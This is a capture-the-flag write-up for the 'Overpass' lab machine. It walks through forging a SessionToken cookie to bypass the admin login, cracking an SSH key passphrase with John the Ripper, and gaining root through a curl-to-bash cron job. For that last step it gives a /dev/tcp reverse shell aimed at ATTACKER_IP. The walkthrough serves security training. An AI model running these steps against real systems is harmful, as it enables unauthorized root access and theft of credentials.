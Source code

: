 ```yaml
---
title: "Overpass"
tags:
  - Easy
  - Linux
  - nmap
  - john
---
```


| Difficulty |
| ---------- |
|    Easy    |

---

First, I ran an `nmap` scan to enumerate the services that are running on the target machine. The command used is:

```
sudo nmap -sC -sV -vv -oN nmap_initial 10.10.138.135
```

 **Results:**

![screenshot1](../assets/images/overpass/screenshot1.png)

From the results, we can see that there are two open ports on the machine: **SSH** and **HTTP**.

Navigating to the HTTP webserver, I can see the following page:

![screenshot2](../assets/images/overpass/screenshot2.png)

Before carrying out a happy-path enumeration, I shall use `gobuster` to see if I can enumerate any hidden directories. The command used is as such:

```
gobuster dir -u http://10.10.138.135/ -x php,js,txt -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Note that I made sure to check for common extensions such as .php in my directory enumeration.

With Gobuster up and running, I can then begin to explore the page.

The first thing I did was to check the source code of the home page. Doing so, I noticed an interesting comment that was left behind by one of the web developers:

![screenshot3](../assets/images/overpass/screenshot3.png)

This seems to imply that their 'military grade cryptography' is actually one that was used by Romans. Furthermore, it doesn't seem to be very secure by the looks of it.

Could it be the **Caesar Cipher**? I will keep this in mind for now!

Next, on the **Downloads** page, there are some files that we can download. Interestingly, they actually provide the **source code** for their password manager! I made sure to download it, as well as the **Build Script** and the **Precompiled Linux Binary**.

![screenshot4](../assets/images/overpass/screenshot4.png)

Before looking at those files, let me check on the results of Gobuster:

![screenshot5](../assets/images/overpass/screenshot5.png)

Nice, Gobuster managed to find an **admin login page**:

![screenshot6](../assets/images/overpass/screenshot6.png)

I tried some basic SQL injections but they did not work. However, I realized that the login functionality was actually exposed in the **login.js** file that was enumerated. 

![screenshot7](../assets/images/overpass/screenshot7.png)

Looking more closely at the `login()` function, it seems that the credentials that are inputted at the login screen are sent in a POST request to an endpoint **'/api/login'**. The response is then received and the data inside is stored in a variable **statusOrCookie**. There is then a check to verify whether the user is authenticated or not. However, looking at the **else** statement which authenticates the user, if we simply create a **SessionToken** cookie and set any random value,  we will be redirected to the **/admin** page.

Let's test this out in the **developer tools > Storage**. In there, I created a cookie called SessionToken and assigned a value to it.

![screenshot8](../assets/images/overpass/screenshot8.png)

Upon refreshing the page, we can see that I have gained access into the administrator panel.

![screenshot9](../assets/images/overpass/screenshot9.png)

We have an RSA private key, which will probably be used to log into the ssh server that is also running on the machine. The username that uses this key could also be **james**, as he is mentioned explicitly in the message.

Let's copy this private key and try to ssh into the machine.

![screenshot10](../assets/images/overpass/screenshot10.png)

Unfortunately we need to find out the **passphrase** for the RSA key. We can try a dictionary attack using **John the Ripper**, which is a password cracking tool. First, we need to convert the RSA key into a hash that can be cracked by `john`. To do so, we use an auxiliary tool called `ssh2john`. This can be done with the following command:

```
python /usr/share/john/ssh2john.py key_rsa > key_rsa.hash 
```

*Note that Python3 does not execute `ssh2john` properly!*

Now, we can use JTR with the rockyou.txt wordlist and try to crack the passphrase:

```
john --wordlist=/usr/share/wordlists/rockyou.txt key_rsa.hash
```

**Results**

![screenshot11](../assets/images/overpass/screenshot11.png)

Nice! james's private key passphrase is **james13**. Now we can log into the ssh server.

![screenshot12](../assets/images/overpass/screenshot12.png)

Now that we're logged in, we can obtain the user flag from the **home** directory of **james**.

---

Next, we have to a way to escalate our privileges. 

First, I checked out the **todo.txt** file located in the home directory of james.

![screenshot13](../assets/images/overpass/screenshot13.png)

Nice, looks like james's password is stored in the password manager that he implemented. I used the `find` command to located the overpass binary on the target machine.

```
find / -name overpass 2>/dev/null
```

The binary was found in **/usr/bin/overpass**.

I executed the binary and managed to obtain james's password by retrieving all of the saved passwords:

![screenshot14](../assets/images/overpass/screenshot14.png)

james password is **saydrawnlyingpicture**

Next, I'll try and see what **sudo privileges** james has on this machine.

![screenshot15](../assets/images/overpass/screenshot15.png)

Uh oh, looks like james does not have any sudo privileges at all. I will have to try another path of privilege escalation.

To automate the process, I'll be using [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), which is a privilege escalation automation script. After running the script, LinPEAS managed to automate a high potential PE vector.

![screenshot16](../assets/images/overpass/screenshot16.png)

The `* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash` refers to a **cronjob**, which generally has the following format:

![screenshot17](../assets/images/overpass/screenshot17.png)

Essentially, the `*` symbols dictate the frequency of the cronjob. If the user to execute the command/binary is to be set, then their name will be placed right after the symbols. Then, the command to run during each interval will be placed after that. In the case of the example above, the `rm /home/someuser/tmp/*` command will run **every minute** (as shown by 5 * symbols)

How about the cronjob that was found by LinPEAS?

![screenshot18](../assets/images/overpass/screenshot18.png)

This cronjob curls a **buildscript.sh** file from **overpass.thm/downloads/src**  every minute and executes it as it pipes it over to bash. The important thing to note is that this command is **executed as root**. We can exploit this vulnerability by creating our own bashscript.sh which sets up a **reverse shell** that connects back to our host machine. Since our buildscript.sh is piped over to bash and executed as root, the reverse shell that we obtain will be root as well.

Let's set this up!

First, I needed to know what ip address **overpass.thm** points to. Looking at the **/etc/hosts** file on the target machine, we can actually see that overpass.thm points to localhost:

![screenshot19](../assets/images/overpass/screenshot19.png)

I changed the IP address associated with this domain to my own IP address. Now, every time a request is made to overpass.thm, the target machine will check the /etc/hosts file and direct the request to my machine instead.

Next, I created a bash script called **buildscript.sh** with the following command inside:

```
bash -i >& /dev/tcp/ATTACKER_IP/8080 0>&1
```

This is a basic reverse shell command that makes a connection back to port 8080 of my localhost.

Next, I placed this script inside a **/downloads/src** directory within my machine. I then started up a simple http server on **port 80** using python.

Finally, I also set up a netcat listener on port 8080 using the command:

```
nc -lvnp 8080
```

Hence, once a minute passes, the target machine will curl my created **buildscript.sh** and execute it as root, setting up a reverse shell which my netcat listener is currently listening out for.

![screenshot20](../assets/images/overpass/screenshot20.png)

After a minute has passed, we can see that my buildscript.sh was indeed downloaded by the target machine.

![screenshot21](../assets/images/overpass/screenshot21.png)

And with that, I have gained access to the target machine as **root**.

We can then obtain the root flag found in **/root**.

